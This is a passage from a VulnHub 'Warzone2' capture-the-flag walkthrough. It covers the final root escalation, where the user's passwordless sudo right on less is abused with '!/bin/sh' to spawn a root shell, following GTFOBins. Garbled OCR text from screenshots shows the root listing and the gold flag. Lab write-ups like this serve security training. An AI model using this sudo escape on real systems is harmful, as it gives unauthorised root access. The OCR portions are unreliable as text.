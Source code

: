 ## admiral has sudo rights with less (GOLD)

### sudo -l gtfobins less
 - <https://gtfobins.github.io/gtfobins/less/>

```
sudo /usr/bin/less /var/public/warzone-rules.txt
!/bin/sh
```

<img src="/assets/images/vulnhub/warzone2/image11.png" style="width:6.59375in;height:5.04167in" alt="— # nc -ntvp 13•44 achiraWarzone2 : / hone,&#39; flagman$ sudo -I Matching Defaults entries for on warzone2: env reset, mail badpass, secure User may run the following on warzone2: (root) NOPASSW: /usr/bin/less Tvar/public/warzone- rules.txt # miraWarzone2: sudo /usr/bin/less /var/public/warzone- rules. txt # id g roups=e ( root x 19 dr.&#39;xr-xr-x dr.&#39;xr-xr-x drwxr-xr-x 3236 Nov drwxr-xr-x drwxr-xr-x dr.&#39;xr-xr-x -rw-r--r-- drwxr-xr-x # cd # Is total d rwxr -rw-r--r- - 16 root root I root - Il roo t - 12 root 2 root 2 root 2 root 3 root roo t I root 3 root 5 root 2 root 2 root I root 2 root 2 root root roo t root roo t root roo t root root roo t roo t root roo t root roo t root root roo t roo t 4896 4896 570 4896 4896 4B96 4896 4B96 4896 36 4096 4896 4896 4896 148 4B96 4B96 Nov Jan Nov Nov Nov Nov Nov Nov Nov Nov Nov Nov Aug Nov Nov 8 19:16 . 27 B8:56 2818 31 27 17 8 14 8 13. 8 16. 8 86. 8 86. 8 86. 8 19 11 8 14 8 86. 8 86. : 513 •41 •33 33 34 : 13 •33 : 09 : 513 •33 •33 2815 8 66: 33 8 B6:34 . bashrc . cache . config Desktop Docwnents . gnupg . ICEauthority . lesshst . local . mozilla Music Pictures . profile Public . ssh " />

<img src="/assets/images/vulnhub/warzone2/image12.png" style="width:5.92708in;height:3.07292in" alt="# cd Desktop total 12 drwxr-xr-x 2 root root 4896 Nov - 16 root root 4896 Nov I root root 332 Nov # cat gold. txt GOLD FLAG : GOLD MEDAL 8 16:41 . 8 19:16 . 8 B9:59 gold.txt : WARZDNE : Alienin with " />
